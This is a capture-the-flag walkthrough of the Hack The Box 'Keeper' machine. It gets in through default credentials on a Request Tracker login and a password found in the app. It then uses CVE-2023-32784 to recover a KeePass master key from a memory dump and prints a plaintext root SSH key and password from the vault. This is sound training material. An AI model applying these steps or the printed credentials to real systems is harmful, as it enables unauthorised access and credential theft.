

# Keeper

This is the write-up for Keeper from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the host.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/keeper]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.129.98.144

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Then we execute a port scan only on the open ports we’ve found.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/keeper]
└──╼ [★]$ sudo nmap -vv -sV -sC -Pn -p 22,80 -oA nmap/keeper 10.129.98.144

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

We opened the webpage running on port 80 on our browser.



As we can see, we got a new subdomain on the box. We write it in our local `/etc/hosts` file.


Now accessing the subdomain link we are redirected to a login page for **Best Practical RT** on **version 4.4.4**.


First, we search for default credentials for the application on the Internet.


Using the default credentials we were able to log into the application.


Searching on the application, we got a password for the user **lnorgaard**.


# Exploitation

## Foothold

Accessing the SSH service with these credentials, we are successful.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/keeper]
└──╼ [★]$ ssh lnorgaard@keeper.htb
Warning: Permanently added the ECDSA host key for IP address '10.129.98.144' to the list of known hosts.
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$ ls -la
total 85384
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25 20:00 .
drwxr-xr-x 3 root      root          4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root             9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24 16:09 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23 14:43 .profile
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24 10:25 .ssh
-rw-r--r-- 1 root      root            39 Jul 20 19:03 .vimrc
-rw-r--r-- 1 root      root      87391651 Aug 14 21:24 RT30000.zip
-rw-r----- 1 root      lnorgaard       33 Aug 14 05:45 user.txt
```

## Privilege Escalation

After successfully logging in, we found the `RT30000.zip` file on the home directory of the user. We downloaded this file to our local machine in order to analyze it.


Unzipping the file, we got.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]
└──╼ [★]$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]
└──╼ [★]$ ls -la
total 332808
drwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n        88 ago 14 15:28 .
drwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n        94 ago 14 15:28 ..
-rwxr-x--- 1 th3g3ntl3m4n th3g3ntl3m4n 253395188 mai 24 06:51 KeePassDumpFull.dmp
-rwxr-x--- 1 th3g3ntl3m4n th3g3ntl3m4n      3630 mai 24 06:51 passcodes.kdbx
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n  87391651 ago 14 15:28 RT30000.zip
```

We noticed that these files are from the **KeePass** application. We can interact with **KeePass** through the command line on the Linux terminal using the `kpcli` tool.


We don’t have the master password to open the `kdbx` file. We can generate the hash from this file using the script `keepass2john`.


Executing `john` with the extracted hash we couldn’t crack the master key. Then, searching around on the Internet, we found a tool that extracted the master key from the memory dump file that we have on the ZIP file downloaded previously.

[https://github.com/vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)

This first tool is a PoC for Windows. On the bottom of the page, there is a PoC in Python, so we download it.

[https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)

Running the dumper in Python we got.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]
└──╼ [★]$ python3 keepass_masterkey_dumper.py -h
usage: keepass_masterkey_dumper.py [-h] [-d] dump

CVE-2023-32784 proof-of-concept

positional arguments:
  dump         The path of the memory dump to analyze

optional arguments:
  -h, --help   show this help message and exit
  -d, --debug  Enable debugging mode
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]
└──╼ [★]$ python3 keepass_masterkey_dumper.py -d KeePassDumpFull.dmp
2023-08-14 16:12:23,245 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

With the help of Google Translator, we identify the language of the possible master key.


We paste this output in ChatGPT and tell him that the word is Danish in order to get help for these words.


Now, the ChatGPT tells us that the word could be “Apple porridge with cream” which let us think the master key could be some Danish dish name. Telling to ChatGPT to list for us possible dishes that contain these words, we got.


As we can see, there is a unique possible dish that matches our master key `(Rødgrød med Fløde)`. On our first try we weren’t able to open the KeePass Database. So we try with all letters in lower case `(rødgrød med fløde)`. Now we finally found our master key.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]                                                                                                             
└──╼ [★]$ kpcli --kdb passcodes.kdbx                                                                                                                                                          
Please provide the master password: *************************                                                                                                                                 
                                                                                                                                                                                              
KeePass CLI (kpcli) v3.1 is ready for operation.                                                                                                                                              
Type 'help' for a description of available commands.                                                                                                                                          
Type 'help <command>' for details on individual commands.

kpcli:/> help
  attach -- Manage attachments: attach <path to entry|entry number>
      cd -- Change directory (path to a group)
      cl -- Change directory and list entries (cd+ls)
   clone -- Clone an entry: clone <path to entry> <path to new entry>
   close -- Close the currently opened database 
     cls -- Clear screen ("clear" command also works)
    copy -- Copy an entry: copy <path to entry> <path to new entry>
    edit -- Edit an entry: edit <path to entry|entry number>
  export -- Export entries to a new KeePass DB (export <file.kdb> [<file.key>])
    find -- Finds entries by Title
    help -- Print helpful information
 history -- Prints the command history
   icons -- Change group or entry icons in the database
  import -- Import a password database (import <file> <path> [<file.key>])
      ls -- Lists items in the pwd or specified paths ("dir" also works)
   mkdir -- Create a new group (mkdir <group_name>)
      mv -- Move an item: mv <path to a group|or entries> <path to group>
     new -- Create a new entry: new <optional path&|title>
    open -- Open a KeePass database file (open <file.kdb> [<file.key>])
   purge -- Purges entries in a given group base on criteria.
    pwck -- Check password quality: pwck <entry|group>
     pwd -- Print the current working directory 
    quit -- Quit this program (EOF and exit also work)
  rename -- Rename a group: rename <path to group>
      rm -- Remove an entry: rm <path to entry|entry number>
   rmdir -- Delete a group (rmdir <group_name>) 
    save -- Save the database to disk
  saveas -- Save to a specific filename (saveas <file.kdb> [<file.key>])
    show -- Show an entry: show [-f] [-a] <entry path|entry number>
   stats -- Prints statistics about the open KeePass file
     ver -- Print the version of this program
    vers -- Same as "ver -v"
      xp -- Copy password to clipboard: xp <entry path|number>
```

Searching in the database, we got the following entries.

```bash
kpcli:/> ls
=== Groups ===
passcodes/
kpcli:/> cd passcodes/
kpcli:/passcodes> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/passcodes> cd Network/
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System
```

The number 1 entry refers to the RT Ticket application. Checking the number 0, we got.

```bash
kpcli:/passcodes/Network> show 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

As we can see, we have the root private key in `PuTTY-User-Key-File-3: ssh-rsa` format. So we copied the key to the `key.ppk` file.

```bash
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Now, using the PuTTYGen tool running in a Docker image we convert the format to the OpenSSH valid format.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]
└──╼ [★]$ docker run --rm -ti -v $PWD:/keys luiszbm/putty-tools puttygen key.ppk -O private-openssh -o id_rsa_root

─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]
└──╼ [★]$ ls -la
total 332832
drwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n       306 ago 14 16:48 .
drwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n        94 ago 14 15:28 ..
-rw------- 1 root         root              1675 ago 14 16:48 id_rsa_root
-rwxr-x--- 1 th3g3ntl3m4n th3g3ntl3m4n 253395188 mai 24 06:51 KeePassDumpFull.dmp
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n      2735 ago 14 16:11 keepass_masterkey_dumper.py
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n      1458 ago 14 16:43 key.ppk
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n       323 ago 14 15:47 passcodes.hash
-rwxr-x--- 1 th3g3ntl3m4n th3g3ntl3m4n      3630 mai 24 06:51 passcodes.kdbx
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n         0 ago 14 16:30 passcodes.kdbx.lock
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n       325 ago 14 16:16 possible_pass
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n       559 ago 14 16:14 possible_pass.orig
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n  87391651 ago 14 15:28 RT30000.zip
```

Now given the right permissions and log into the SSH using the private key, we were able to log in as user root.

```bash
─[us-free-2]─[10.10.14.108]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/RT30000]
└──╼ [★]$ sudo ssh -i id_rsa_root root@keeper.htb
The authenticity of host 'keeper.htb (10.129.98.144)' can't be established.
ECDSA key fingerprint is SHA256:apkh696g2/uAeckIXd6eFvgmvmPqoEj41w4ia45OfrI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb,10.129.98.144' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# id;hostname;uname -mrs;ls -la
uid=0(root) gid=0(root) groups=0(root)
keeper
Linux 5.15.0-78-generic x86_64
total 85384
drwx------  5 root root     4096 Aug 14 05:45 .
drwxr-xr-x 18 root root     4096 Jul 27 13:52 ..
lrwxrwxrwx  1 root root        9 May 24 15:54 .bash_history -> /dev/null
-rw-r--r--  1 root root     3106 Dec  5  2019 .bashrc
drwx------  2 root root     4096 May 24 16:58 .cache
-rw-------  1 root root       20 Jul 27 13:57 .lesshst
lrwxrwxrwx  1 root root        9 May 24 15:54 .mysql_history -> /dev/null
-rw-r--r--  1 root root      161 Dec  5  2019 .profile
drwxr-xr-x  2 root root     4096 May 24 16:09 .ssh
-rw-r--r--  1 root root       39 Jul 20 19:03 .vimrc
-rw-r--r--  1 root root 87391651 Jul 25 19:56 RT30000.zip
drwxr-xr-x  2 root root     4096 Jul 25 20:11 SQL
-rw-r-----  1 root root       33 Aug 14 05:45 root.txt
```

